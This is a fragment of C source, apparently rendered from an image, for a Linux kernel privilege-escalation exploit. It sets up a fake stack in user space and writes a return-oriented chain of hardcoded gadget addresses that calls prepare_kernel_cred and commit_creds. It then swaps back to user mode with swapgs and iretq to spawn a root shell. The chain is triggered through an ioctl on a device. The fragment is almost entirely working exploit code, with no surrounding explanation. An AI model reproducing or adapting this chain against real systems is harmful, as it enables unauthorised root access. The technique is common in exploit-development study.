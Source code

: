   ```c
    base_addr  = strtoul(argv[1], NULL, 16);
    req.offset = strtoul(argv[2], NULL, 10);
    ret_inst_operand = strtoul(argv[3], NULL, 16);

    printf("array base address = 0x%lx\n", base_addr);
    stack_addr = (base_addr + (req.offset * 8)) & 0xffffffff;
    fprintf(stdout, "stack address = 0x%lx\n", stack_addr);

    mmap_addr = stack_addr & 0xffff0000;
    assert((mapped = mmap((void*)mmap_addr, 0x20000, 7, 0x32, 0, 0)) == (void*)mmap_addr);
    assert((temp_stack = mmap((void*)0x30000000, 0x10000000, 7, 0x32, 0, 0)) == (void*)0x30000000);

    save_state();

    fake_stack = (unsigned long *)(stack_addr);
    *fake_stack ++= 0xffffffff810476e5UL; /* pop rdi ; ret */

    fake_stack = (unsigned long *)(stack_addr + ret_inst_operand + 8);

    *fake_stack ++= 0x0UL;                /* NULL */ 
    *fake_stack ++= 0xffffffff8108fa30UL; /* prepare_kernel_cred() */

    *fake_stack ++= 0xffffffff812366d2UL; /* pop rdx ; ret */
    //*fake_stack ++= 0xffffffff8108f7b0UL; /* commit_creds() */
    *fake_stack ++= 0xffffffff8108f7b6UL; // commit_creds() + 2 instructions

    *fake_stack ++= 0xffffffff81035b51UL; /* mov rdi, rax ; call rdx */

    #if 1
    *fake_stack ++= 0xffffffff81050554UL; // swapgs ; pop rbp ; ret
    *fake_stack ++= 0xdeadbeefUL;         // dummy placeholder 

    *fake_stack ++= 0xffffffff81050dd6UL; /* iretq */
    *fake_stack ++= (unsigned long)shell; /* spawn a shell */
    *fake_stack ++= user_cs;              /* saved CS */
    *fake_stack ++= user_rflags;          /* saved EFLAGS */
    *fake_stack ++= (unsigned long)(temp_stack+0x5000000);  /* mmaped stack region in user space */
    *fake_stack ++= user_ss;              /* saved SS */
    #endif

    fd = open(DEVICE_PATH, O_RDONLY);

    if (fd == -1) {
      perror("open");
    }

    ioctl(fd, 0, &req);

    return 0;
  }
  ``` 
